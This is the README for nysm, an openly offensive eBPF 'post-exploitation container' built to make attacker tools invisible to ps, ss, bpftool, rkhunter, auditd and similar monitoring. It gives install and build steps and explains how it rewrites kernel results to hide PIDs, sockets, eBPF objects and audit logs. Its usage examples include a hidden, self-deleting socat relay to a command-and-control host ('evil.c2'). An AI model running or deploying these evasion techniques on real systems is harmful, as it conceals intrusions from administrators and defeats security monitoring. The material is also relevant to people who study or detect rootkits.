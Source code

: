<h1 align="center">nysm</h1>

<p align="center">
    <img alt="nysm" src=".img/250x250.png" width="200">
</p>

<p align="center">
    A stealth post-exploitation container.
</p>

## Table of Content

- [1. Introduction](#introduction)
- [2. Installation](#installation)
    - [2.1 Requirements](#requirements)
    - [2.2 Linux headers](#linux-headers)
    - [2.3 Build](#build)
- [3. Usage](#usage)
    - [3.1 Examples](#examples)
- [4. How it works](#how-it-works)
    - [4.1 In general](#in-general)
    - [4.2 Hide eBPF objects](#hide-ebpf-objects)
    - [4.3 Hide Auditd logs](#hide-auditd-logs)
    - [4.4 Hide PIDs](#hide-pids)
    - [4.5 Hide sockets](#hide-sockets)
- [5. Limitations](#limitations)

## Introduction

With the raise in popularity of offensive tools based on eBPF, going from credential stealers to rootkits hiding their own PID, a question came to our mind: *Would it be possible to make eBPF invisible in its own eyes?* From there, we created nysm, an eBPF stealth container meant to make offensive tools fly under the radar of System Administrators, not only by hiding eBPF, but much more:

- bpftool
- bpflist-bpfcc
- ps
- top
- sockstat
- ss
- rkhunter
- chkrootkit
- lsof
- auditd
- *etc...*

All these tools go blind to what goes through nysm. It hides:

- New eBPF programs ⚙️
- New eBPF maps 🗺️
- New eBPF links 🔗
- New Auditd generated logs 📰
- New PIDs 🪪
- New sockets 🔌

> **Warning**
> This tool is a simple demonstration of eBPF capabilities as such. It is not meant to be exhaustive. Nevertheless, pull requests are more than welcome.

## Installation

### Requirements

```bash
sudo apt install git make pkg-config libelf-dev clang llvm bpftool -y
```

### Linux headers

```bash
cd ./nysm/src/
bpftool btf dump file /sys/kernel/btf/vmlinux format c > vmlinux.h
```

### Build

```bash
cd ./nysm/src/
make
```

## Usage

nysm is a simple program to run before the intended command:

```
Usage: nysm [OPTION...] COMMAND
Stealth eBPF container.

  -d, --detach               Run COMMAND in background
  -r, --rm                   Self destruct after execution
  -v, --verbose              Produce verbose output
  -h, --help                 Display this help
      --usage                Display a short usage message
```

### Examples

Run a hidden `bash`:

```bash
./nysm bash
```

Run a hidden `ssh` and remove `./nysm`:

```
./nysm -r ssh user@domain
```

Run a hidden `socat` as a daemon and remove `./nysm`:

```bash
./nysm -dr socat TCP4-LISTEN:80 TCP4:evil.c2:443
```

## How it works

### In general

As eBPF *cannot* overwrite returned values or kernel addresses, our goal is to find the lowest level call interacting with a userspace address to overwrite its value and hide the desired objects.

To differentiate nysm events from the others, everything runs inside a seperated PID namespace.

### Hide eBPF objects

`bpftool` has some features nysm wants to evade: `bpftool prog list`, `bpftool map list` and `bpftool link list`.

As any eBPF program, `bpftool` uses the `bpf()` system call, and more specifically with the `BPF_PROG_GET_NEXT_ID`, `BPF_MAP_GET_NEXT_ID` and `BPF_LINK_GET_NEXT_ID` commands. The result of these calls is stored in the userspace address pointed by the `attr` argument.

To overwrite `uattr`, a tracepoint is set on the `bpf()` entry to store the pointed address in a map. Once done, it waits for the `bpf()` exit tracepoint. When `bpf()` exists, nysm can read and write through the [bpf_attr](https://elixir.bootlin.com/linux/v6.4/source/include/uapi/linux/bpf.h#L1320) structure. After each `BPF_*_GET_NEXT_ID`, `bpf_attr.start_id` is replaced by `bpf_attr.next_id`.

In order to hide specific IDs, it checks `bpf_attr.next_id` and replaces it with the next ID that was not created in nysm.

Program, map, and link IDs are collected from [security_bpf_prog()](https://elixir.bootlin.com/linux/v6.4/source/security/security.c#L5092), [security_bpf_map()](https://elixir.bootlin.com/linux/v6.4/source/security/security.c#L5077), and [bpf_link_prime()](https://elixir.bootlin.com/linux/v6.4/source/kernel/bpf/syscall.c#L2867).

### Hide Auditd logs

Auditd receives its logs from `recvfrom()` which stores its messages in a buffer.

If the message received was generated by a nysm process through [audit_log_end()](https://elixir.bootlin.com/linux/latest/source/kernel/audit.c#L2399), it replaces the message length in its `nlmsghdr` header by 0.

### Hide PIDS

Hiding PIDs with eBPF is nothing new. nysm hides new `alloc_pid()` PIDs from `getdents64()` in `/proc` by changing the length of the previous record.

As `getdents64()` requires to loop through all its files, the eBPF instructions limit is easily reached. Therefore, nysm uses [tail calls](https://docs.cilium.io/en/stable/bpf/architecture/#tail-calls) before reaching it.

### Hide sockets

Hiding sockets is a big word. In fact, opened sockets are already hidden from many tools as they cannot find the process in `/proc`. Nevertheless, `ss` uses `socket()` with the `NETLINK_SOCK_DIAG` flag which *returns* all the currently opened sockets. After that, `ss` receives the result through `recvmsg()` in a message buffer and the returned value is the length of all these messages combined.

Here, the same method as for the PIDs is applied: the length of the previous message is modified to hide nysm sockets.

These are collected from the `connect()` and `bind()` calls.

## Limitations

Even with the best effort, nysm still has some limitations.

- Every tool that does not close their file descriptors will spot nysm processes created while they are open. For example, if `./nysm bash` is running before `top`, the processes will not show up. But, if another process is created from that `bash` instance while `top` is still running, the new process will be spotted. The same problem occurs with sockets and tools like nethogs.

- Kernel logs: `dmesg` and `/var/log/kern.log`, the message `nysm[<PID>] is installing a program with bpf_probe_write_user helper that may corrupt user memory!` will pop several times because of the eBPF verifier on nysm run.

- Many traces written into files are left as hooking `read()` and `write()` would be too heavy (but still possible). For example `/proc/net/tcp` or `/sys/kernel/debug/tracing/enabled_functions`.

- Hiding `ss` `recvmsg` can be challenging as a new socket can pop at the beginning of the buffer, and nysm cannot hide it with a preceding record *(this does not apply to PIDs)*. A quick fix could be to switch place between the first one and the next legitimate socket, but what if a socket is in the buffer by itself? Therefore, nysm modifies the first socket information with hardcoded values.

- Running `bpf()` with any kind of `BPF_*_GET_NEXT_ID` flag from a nysm child process should be avoided as it would hide every non-nysm eBPF objects.

Of course, many of these limitations must have their own solutions. Again, pull requests are more than welcome.
